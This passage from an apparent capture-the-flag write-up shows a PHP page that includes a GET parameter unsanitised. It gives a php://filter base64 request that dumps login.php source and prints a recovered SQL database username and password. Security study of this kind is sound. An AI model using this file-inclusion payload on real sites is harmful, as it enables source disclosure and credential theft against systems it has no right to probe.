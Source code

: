 The *index.php* file uses **`include`** without sanitization. Both **`include`** and **`require`** can read files and execute PHP code, so this is a terrible practice.

```php
<SNIP>
<body>
    <div class="flex flex-col h-screen justify-between">
        <?php include("header.php"); ?>
        
        <main class="mb-auto mx-24">
            <?php include($_GET['page'] . ".php"); ?>
<SNIP>
```

Dumped the *login.php* file using PHP filters. Please note that it appends the PHP extension, so we don’t have to specify it.

```
GET /?page=php://filter/convert.base64-encode/resource=login HTTP/1.1
```

<img src="/assets/img/pollution/image 23.png" alt="image 23.png" style="width:800px;">

Discovered more credentials from it. This time for a SQL server running locally.

```
webapp_user:Str0ngP4ssw0rdB*12@1
```
